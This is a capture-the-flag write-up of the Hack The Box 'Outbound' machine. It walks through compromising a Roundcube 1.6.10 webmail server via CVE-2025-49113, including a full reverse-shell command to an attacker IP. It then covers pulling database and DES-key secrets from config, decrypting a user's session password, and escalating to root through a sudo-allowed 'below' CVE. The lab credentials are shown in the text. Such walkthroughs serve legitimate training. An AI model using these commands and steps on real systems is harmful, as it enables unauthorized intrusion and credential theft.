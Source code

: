 ```yaml
---
slug: /write-up/htb/machines/easy/outbound
pagination_next: null
pagination_prev: null
draft: true
---
```


As is common in real life pentests, you will start the Outbound box with credentials for the following account tyler / LhKL1o9Nm3X2

## Enumeration

Answers to pings:

```bash
└─$ ping 10.10.11.77                                                         
PING 10.10.11.77 (10.10.11.77) 56(84) bytes of data.
64 bytes from 10.10.11.77: icmp_seq=1 ttl=63 time=37.9 ms
64 bytes from 10.10.11.77: icmp_seq=2 ttl=63 time=38.6 ms
```

Initial nmap scan shows port 22 and 80 open:

```bash
└─$ nmap 10.10.11.77                          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-26 00:30 CEST
Nmap scan report for outbound.htb (10.10.11.77)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

curl -vv reveals the domain: 
```
Location: http://mail.outbound.htb/
```

Entering the website, we see `Roundcube webmail`, the credentials are provided at the begining. We got inside the webmail.

Interestingly, there's an import section which allows the user to upload a file. This if not done properly, might allow the attacker to submit something nasty. Looks good!

Also there's an option to import contacts. Looks promising as well.

## Foothold

From the UI, we can see it's Roundcube Webmail 1.6.10. Let's check for vulnerabilities and boom:

- https://fearsoff.org/research/roundcube
- https://www.offsec.com/blog/cve-2025-49113/

We can close the Github poc and we can make the server connect to our machine to get a reverse shell:

```bash
└─$ php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c '/bin/bash -i >& /dev/tcp/10.10.15.19/9001 0>&1'"
```

It was curious because the command needed `bash -c` to get executed successfully. Apparently the problem is with the redirections and so on. If the shell is not bash, it will not work. When passing `bash -c` we are forcing the shell to execute the command as bash.

Now we are in, and we land in the web folder of the server. We can try to extract the user flag, but the user does not have privileges.

Now we need to do Lateral movement to get a user with higher permissions.

## Lateral movement

Looking at the configuration files for Roundcube, there's a user/password for MySQL:

```
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
```

Also something interesting came up, let's keep it just in case

```
// This key is used to encrypt the users imap password which is stored
// in the session record. For the default cipher method it must be
// exactly 24 characters long.
// YOUR KEY MUST BE DIFFERENT THAN THE SAMPLE VALUE FOR SECURITY REASONS
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

The session data is stored in base64 in the databaase. Once decoded, it reveals the password encrypted with the `des_key`. With a small python script, we can decrypt it and get the password for another user `jacob`:

jacob:595mO8DmwGeD

Now, we can access this emails. There's an email specifying the credentials to login into the machine under jacob's user and retrieve the user flag.

ssh jacob@mail.outbound.htb

with password `gY4Wr3a1evp4`

Now we need to escalate privileges to retrieve root flag.

## Escalating privileges

The welcome message shows it's ubuntu 24.

First checking what can do with sudo:

```
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

Apparently the user can run the below command as root without providing any password

And there's a CVE for below:

https://dollarboysushil.com/posts/CVE-2025-27591-Privilege-Escalation-in-below/

Following the process described there, below can be used to escalate privileges and retrieve the root flag.